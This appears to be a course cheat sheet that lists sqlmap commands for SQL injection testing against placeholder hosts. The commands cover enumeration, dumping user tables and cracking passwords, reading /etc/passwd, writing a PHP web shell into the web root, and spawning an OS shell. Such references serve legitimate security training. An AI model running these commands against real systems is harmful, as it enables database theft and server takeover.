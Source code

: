 
# Commands

| **Command**                                                                                                               | **Description**                                             |
| ------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `sqlmap -h`                                                                                                               | View the basic help menu                                    |
| `sqlmap -hh`                                                                                                              | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                                                                | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                                                               | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                                                              | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                                                                       | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`                                                        | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                                                     | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`                                             | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                                                            | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                                                     | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                                                          | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`                                  | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                                                             | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                                      | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`                             | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                                       | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                                               | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                                            | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                                                                                   | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                                              | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                                      | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`                 | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`                                                                     | Spawning an OS shell                                        |

# **Questions & Answers